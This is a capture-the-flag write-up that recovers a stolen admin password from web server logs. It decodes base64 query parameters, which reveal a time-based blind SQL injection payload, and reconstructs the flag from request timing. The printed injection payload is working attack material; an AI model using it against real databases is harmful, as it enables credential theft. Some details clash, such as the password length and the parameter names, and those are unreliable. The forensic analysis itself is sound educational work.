 # weblogs - Writeup

After a sharp look at the log, the following log-format ca be recognized:

```text
IP - - [timestamp] "URL" status_code size "-" "-"
```

From the URL we can extract the following information:

* `GET`-request was used to access `/admin/` and two GET-parameters are given: `action` and `sort`.
  * `action` always has the value `users`.
  * `order` looks random on first sight. But it contains repititions and some end on `%3D`.

A little knowledge of URL-encoding helps to see, that `%3D` is the URL-encoded representation of `=`. This raises the assumption, that `sort` is a base64-encoded string. Decoding all order strings reveals SQL statements and therefore proofs the base64-assumption to be correct.

The extraction and decoding of the sql statements can be easily automated using a little Python3

```python
import base64
import urllib.parse

def decode_url_params(access_log):
    with open(access_log, "r") as f:
        # extract all bas64 strings
        links = []
        for line in f:
            links.append(line.split(' ')[6].split('=')[2])
            pass
        pass
    # convert all '%3D' to '='
    http_decoded = [urllib.parse.unquote(l) for l in links]
    # base64 decode
    clean_log = [base64.b64decode(d) for d in http_decoded]
    # print
    for log in clean_log:
        print(log.decode('ascii'))
        pass
    pass
```

It assumes the log to be located in "access.log" in the current folder and prints the sql statements to stdout.
The first decoded order string is the following:

```sql
ASC,(
    select (
        case field(
            concat(
                substring(bin(ascii(substring(password,1,1))),1,1),
                substring(bin(ascii(substring(password,1,1))),2,1)
            ),
            concat(char(48),char(48)),
            concat(char(48),char(49)),
            concat(char(49),char(48)),
            concat(char(49),char(49))
        )
        when 1 then TRUE
        when 2 then sleep(2)
        when 3 then sleep(4)
        when 4 then sleep(6)
        end)
    from users
    where id=1
    )
```

Having a lot of sql statements being send to the server and the sql statements containing `sleep()` statements makes us assume, that a blind sql injection took place. The general format of those sql statements is `select ... from users where id=1`. The access of the table `users` shows, that a user table is accessed. The target `id` is `1`, which probably belongs to an admin user. The access of `password` in the select-section gives the hint, that a password was stolen. Therefore the stolen (admin) password is the flag to be found in this challenge.

We now try to get the password to solve this challenge.

We observe, that `substring(password,36,1)` occurs in the last request. Therefore the password has 21 characters. There are 4 requests per character, each extracting 2 bits of the character (except the 4th request: it extracts 1 bit, because ascii values can be represented by 7 bits in total). For the requests on two bits, the answer takes 0, 2, 4 or 6 seconds if the two bits are 00, 01, 10 or 11. If requesting the 7th bit, it takes 2 or 4 seconds if bit 7 is 0 or 1.

The timestamps and the logs are extracted using a little more Python3:

```python
def extract_timestamps(access_log):
    from datetime import datetime
    with open(access_log, 'r') as f:
        tss = []
        for line in f:
            ts = line.split('[')[1].split(']')[0]
            dt = datetime.strptime(ts, '%d/%b/%Y:%H:%M:%S %z')
            tss.append(dt)
        return tss

def recover_flag(access_log):
    from datetime import timedelta
    tss = extract_timestamps(access_log)
    tds = [tss[i] - tss[i-1] for i in range(1, len(tss))]
    s = list()
    for i, td in enumerate(tds):
        if i % 4 == 0:
            st = ''
        if td == timedelta(seconds=0) or ((i % 4) == 3 and td == timedelta(seconds=2)):
            st = '00' + st
        elif td == timedelta(seconds=2) or ((i % 4) == 3 and td == timedelta(seconds=4)):
            st = '01' + st
        elif td == timedelta(seconds=4):
            st = '10' + st
        elif td == timedelta(seconds=6):
            st = '11' + st
        else:
            print('Uh oh, there is something fishy!')
        if i % 4 == 3:
            s.append(chr(int(st, 2)))
        pass
    flag = ''.join(s)
    print(flag)

if __name__ == '__main__':
    import sys
    decode_url_params(sys.argv[1])
    recover_flag(sys.argv[1])
```

and the stolen flag is computed:

`SSH{Bl1ndSQLi_in_th3_l0g5_f32c3e5f}`

(The last character is the NULL byte terminating the string and is not part of the flag)
